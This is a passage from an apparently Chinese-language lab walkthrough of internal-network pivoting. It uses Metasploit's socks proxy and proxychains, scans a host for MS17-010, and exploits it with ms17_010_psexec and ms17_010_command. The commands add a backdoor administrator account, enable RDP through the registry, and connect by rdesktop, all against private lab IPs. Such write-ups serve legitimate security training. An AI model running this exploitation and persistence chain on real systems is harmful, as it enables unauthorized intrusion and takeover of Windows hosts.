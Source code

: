 ```shell
auxiliary/server/socks_proxy
set srvhost 192.168.72.129
set vsersion 4a
run
```

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220948602.png" alt="image-20220622094818562" style="zoom:67%;" />

#### 3、进入/etc/proxychains.conf 在底下修改，因为我们socks_proxy模块设置为了192.168.1.112 1080端口.

![image-20220622092428230](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220924284.png)

这个时候代理成功，可以进入内网了,使用nmap来扫描域成员192.168.52.141的信息发现了有ms17-010漏洞

```shell
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms17-010.nse 192.168.52.141/138
```

![image-20220622095736097](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220957134.png)

这个时候就可以使用msf内置的永恒之蓝漏洞去获取域成员的shell了，这个时候需要注意的是使用payload的时候要使用正向shell去连接

```shell
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set rhost 192.168.52.141
run
```

![image-20220622095927641](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220959709.png)

> 发现不可以反弹shell，但是发现可以使用`auxiliary/admin/smb/ms17_010_command`来执行一些命令且是系统权限。

```shell
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command "net user yang admin@123 /add" #添加用户
run #成功执行

set command "net localgroup administrators yang /add" #管理员权限
run

set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run #成功执行
```

然后使用`proxychains`连接他的3389，`proxychains rdesktop 192.168.52.141`

![image-20220622163139094](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206221631353.png)
